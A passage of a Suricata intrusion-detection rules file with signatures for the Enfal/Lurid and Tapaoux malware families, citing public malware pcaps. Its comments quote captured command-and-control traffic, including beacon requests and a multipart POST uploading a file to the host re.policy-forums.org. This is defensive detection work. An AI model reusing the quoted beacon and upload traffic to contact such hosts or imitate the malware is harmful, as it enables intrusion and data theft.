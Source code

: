 	#	byte_test:8,=,hupigon.static_bytes,212;\
	#


#Enfal_lurid begin
#NOTE: This ja3 is also shared by the TrojanPage pcap. It might reflect the sandbox and not the malware itself
alert tls any any -> any any (\
	msg:"Enfal_lurid suricata rule";\
	ja3.hash; content:"de350869b8c85de67a350c8d186f11e6";\
	reference:url,https://contagiodump.blogspot.com/2013/04/collection-of-pcap-files-from-malware.html;\
	metadata:file BIN_Enfal_Lurid_0fb1b0833f723682346041d72ed112f9_2013-01.pcap;\
	sid:12;\
	rev:1;\
)
#Enfal_lurid end

#Tapaoux begin
#
#GET /ol/yahoo/banner3.php?jpg=../(L2xq1Q3)/(eGAz1DMtdmlydGVhbDBx/(MSAfMSUcWzIyWzHc HTTP/1.1\r\n
#User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1;)\r\n
#Host: re.policy-forums.org\r\n
#\r\n
#
#POST /ol/yahoo/banner1.php HTTP/1.1\r\n
#Accept: */*\r\n
#Content-Type: multipart/form-data; boundary=7d13a23b368\r\n
#User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1;)\r\n
#Host: re.policy-forums.org\r\n
#Content-Length: 361\r\n
#Connection: Keep-Alive\r\n
#Cache-Control: no-cache\r\n
#\r\n\r\n
#--7d13a23b368
#Content-Disposition: form-data; name="dirname"
#
#../(L2xq1Q3)/(eGAz1DMtdmlydGVhbDBx/(MSAfMSUcWzIyWzHc
#--7d13a23b368
#Content-Disposition: form-data; name="userfile"; filename="C:\WINDOWS\system32\ffffz201108231053ca.tmp"
#Content-Type: application/octet-stream
#
#-%&%fx#<'! 49ed.<; .ngceen.0'#<60u.46>uf}f{e|nde
#d``
#gg
#l`o
#--7d13a23b368--
alert tcp any any -> any any (\
	msg:"Tapaoux simple rule GET";\
	content:"GET /ol/yahoo/banner"; offset:0; depth:20;\
	content:".php?jpg=../"; distance:1; within:12;\
	reference:url,https://contagiodump.blogspot.com/2013/04/collection-of-pcap-files-from-malware.html;\
	metadata:file BIN_Tapaoux_60AF79FB0BD2C9F33375035609C931CB_winver_2011-08-23.pcap;\
	sid:13;\
	rev:1;\
)
